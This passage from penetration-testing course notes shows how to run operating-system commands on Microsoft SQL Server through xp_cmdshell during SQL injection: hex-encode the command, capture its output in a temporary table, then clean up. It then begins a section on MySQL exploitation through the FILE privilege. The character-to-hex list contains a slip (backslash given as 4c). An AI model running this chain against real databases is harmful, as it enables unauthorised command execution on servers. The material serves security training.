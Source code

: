 1. Creating a temporary table
  The first things we want to do is to create a temporary table to hold the stored procedure output:
    ```
    CREATE TABLE temptable (id int not null identity (1,1), output nvarchar(4096) null);--
    ```
    The `id` column will help us to access different command outputs while the `output` column will contain the actual command results.

2. Crafting the argument for `xp_cmdshell`
  As you will see in the next step, we need to covert the **command string** of the command we want to run into an ASCII representation.

  Let us say that we want to run `dir c:\`

  We have to convert every character to its HEX ASCII representation:
  - 64 is the HEX code for "d"
  - 69 is the HEX code for "i"
  - 72 is the HEX code for "r"
  - 20 is the HEX code for ""
  - 63 is the HEX code for "c"
  - 3a is the HEX code for ":"
  - 4c is the HEX code for "\\"

  And then insert a double zero after every character of the string.

  The result is: `0x640069007200200063003a005c00`

3. Executing `xp_cmdshell`
  Now we have to create a variable with the command string we have just created and then we pass it to `xp_cmdshell`
    ```
    declare @t nvarchar(4096) set @t=0x640069007200200063003a005c00 insert into temptable (output) EXEC master.dbo.xp_cmdshell @t;
    ```

4. Reading the Results
  To read the results you can use any of the data-dumping techniques we have seen.
  You can use any of the data-dumping techniques we have seen. You can use the `id` field of the `temptable` to choose which command result you want to retrieve.

5. Final Cleanup
  After performing your tests, you have to delete the temporary table:
    ```
    DROP TABLE temptable;
    ```

#### 4.8.2. Advanced MySQL Exploitation
**MySQL** is another DBMS which provides some advanced features. A penetration can exploit them to get full access to a target server.
Most of the features we are going to see in a minute, rely on the [FILE](https://dev.mysql.com/doc/refman/5.1/en/privileges-provided.html#priv_file) privilege that "gives you permission to read and write files on the server host"

The FILE privileges can be granted to any MySQL user, depending on the web application needs. Anyway, it is always granted to the MySQL **root** user on both \*nix systems and MS Windows.
